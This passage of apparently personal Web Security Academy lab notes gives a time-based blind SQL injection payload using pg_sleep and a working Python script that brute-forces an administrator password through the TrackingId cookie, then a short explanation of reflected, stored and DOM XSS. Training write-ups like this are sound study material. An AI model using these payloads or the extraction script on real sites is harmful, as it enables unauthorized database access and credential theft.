```
        payload += char
        print(f"{payload}\nStatus Code: {r.status_code}")
        count += 1
        break

```
### Twelth LAB

Simply induce a time delay in the tracking cookie: `x'||pg_sleep(10) -- -`

### Thirthinth LAB

Retrieve information with this script but remember to switch the url for your lab id.

```
import requests
import string

def main():
    index = 1
    password = ""
    while index <= 30:
        for char in string.ascii_letters + string.digits:
            r = requests.get("https://0a5a004b0438160bc046d73800e60088.web-security-academy.net/", cookies={"TrackingId":f"x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,{index})='{password}{char}')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--"})
            if r.elapsed.total_seconds() < 10:
                continue
            password += char
            index += 1
            print(password)
            break

main()

```

## XSS 

Occurs when user unvalidated user input is reflected onto the html. An attacker can then inject arbitrary tags, some of which leads to js execution, thus arises cross site scripting.

XSS is split into three categories:

**Reflected XSS** - it's not stored, the reflection occurs only in the subsequent response to the request.

**Stored XSS** - It's stored somewhere, so the reflection is present even if we close the page and re-open it.

**DOM XSS** - Takes place when user input is placed on a sink that allows execution of js.

**MAIN SINKS**
